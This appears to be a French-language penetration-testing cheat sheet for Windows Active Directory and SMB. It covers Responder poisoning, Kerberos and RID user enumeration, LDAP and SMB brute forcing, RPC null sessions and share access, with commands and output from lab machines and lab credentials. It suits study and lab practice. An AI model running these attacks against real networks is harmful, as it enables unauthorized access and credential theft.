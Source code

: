 # Windows AD et SMB (reseau)

## Responder

[Projet](https://github.com/lgandx/Responder)

### llmnr et netbios spoofing, netLM interception

```sh
sudo responder -I tun0
```

* log path: /usr/share/responder/logs/



## AD users

### enumeration des utilisateurs:

```sh
nmap --script smb-enum-users.nse -p 445 <host>
sudo nmap -sU -sS --script smb-enum-users.nse -p U:137,T:139 <host>
```

### ridenum (apt install)

#### Connect to the remote server (192.168.1.236) and cycle from RID 500 to 50000 (500 50000), using the given password file (/tmp/passes.txt):

```sh
ridenum 192.168.1.236 500 50000 /tmp/passes.txt
```
### impacket

```sh
/usr/share/doc/python3-impacket/examples/lookupsid.py HTB/svc-alfresco:s3rvice@10.10.10.161
```

#### sans authent

```sh
/usr/share/doc/python3-impacket/examples/GetADUsers.py  -all -no-pass -dc-ip 10.10.10.172 MEGABANK.LOCAL/
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Querying 10.10.10.172 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Guest                                                 <never>              <never>             
AAD_987d7f2f57d2                                      2020-01-02 23:53:24.984897  2020-01-13 20:26:39.751833 
mhope                                                 2020-01-03 00:40:05.908924  2020-01-03 14:29:59.037500 
SABatchJobs                                           2020-01-03 13:48:46.392235  2020-01-14 17:42:40.486176 
svc-ata                                               2020-01-03 13:58:31.332169  <never>             
svc-bexec                                             2020-01-03 13:59:55.863422  <never>             
svc-netapp                                            2020-01-03 14:01:42.786264  <never>             
dgalanos                                              2020-01-03 14:06:10.519660  <never>             
roleary                                               2020-01-03 14:08:05.832167  <never>             
smorgan                                               2020-01-03 14:09:21.629084  <never>             
```

#### SPN

```powershell
setspn
setspn -Q */*
```

## Enum4linux

```sh
Enum4linux <IP>
```

# Kerberos:

* sur le rzo: scanner les ports 88

* en local: `dsquery server`

## kerbute

```sh
 ./kerbrute_linux_amd64 userenum -d HTB.local --dc 10.10.10.161 user 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.2 (fd5f345) - 10/15/19 - Ronnie Flathers @ropnop

2019/10/15 17:31:39 >  Using KDC(s):
2019/10/15 17:31:39 >  	10.10.10.161:88

2019/10/15 17:31:39 >  [+] VALID USERNAME:	 Administrator@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME:	 andy@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME:	 lucinda@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME:	 mark@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME:	 santi@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME:	 sebastien@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME:	 svc-alfresco@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 EXCH01$@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailbox0659cc1@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailbox6ded678@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailbox7108a4e@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailbox83d6781@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailbox968e74d@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailboxb01ac64@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailboxc0a90c9@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailboxc3d7722@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailboxfc9daad@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailboxfd87238@HTB.local
2019/10/15 17:31:40 >  Done! Tested 32 usernames (18 valid) in 0.461 seconds
```


## LDAP

```sh
sudo nmap -p 389 --script ldap-brute --script-args ldap.base='"cn=users,dc=megabank,dc=local"' 10.10.10.172
```

### une fois qu'on a un compte:

```sh
ldapdomaindump -u DANTE.LOCAL\\mrb3n -p Welcome1 172.16.1.20
```


## NETBIOS

```sh
nbtscan 192.168.1.1/24  
nmblookup -A 10.10.10.161
```


## RPC

### samrdump.py: An  application that communicates with the Security Account Manager(SAM)  Remote interface from the MSRPC suite. 

```sh
/usr/share/doc/python3-impacket/examples/samrdump.py 10.10.10.161
```

### lookupsid.py: This script allows you to bruteforce the Windows SID through [MS-LSAT] MSRPC Interface, aiming at finding remote users/groups.

```sh
/usr/share/doc/python3-impacket/examples/lookupsid.py user:motdepasse@10.10.10.149
```


### autres:

```
nmap <target> --script=msrpc-enum

rpcclient -U "" -N 192.168.1.102

enumdomusers

queryuser 0x3e8
```


## smbclient


### enumeration des share smb:

```sh
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <host>
nmap -p 445 --script smb-os-discovery <host>
nmap -sV -p 445 --script smb-brute <host>
nmap --script smb-vuln* -p 139,445 <host>
```

### smbmap

```sh
smbmap -H 10.10.10.161
smbmap -u test -H 172.16.1.101
```

### impacket:

```sh
proxychains impacket-smbclient 172.16.1.17
```

```sh
/usr/share/doc/python3-impacket/examples/smbclient.py HTB/svc-alfresco:s3rvice@10.10.10.161
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

Type help for list of commands
# shares
ADMIN$
C$
IPC$
NETLOGON
SYSVOL

#use <share>
#ls
#get

#smbclient
smbclient -L 192.168.1.102
smbclient //192.168.1.102/tmp       
smbclient --user=Hazard -L 10.10.10.149
smbclient -L \\HTB -I 10.10.10.161 -N
```


## RDP

### linux client

#### rdesktop

```sh
rdesktop <IP>
```

#### xfreerdp

```sh
xfreerdp /u:admin /p:password /cert:ignore /v:MACHINE_IP /workarea
```

#### remmina

```sh
sudo remmina
```
### Windows

```powershell
mstsc.exe
```

### Alternatives

[PsMapExec](https://github.com/The-Viper-One/PsMapExec)
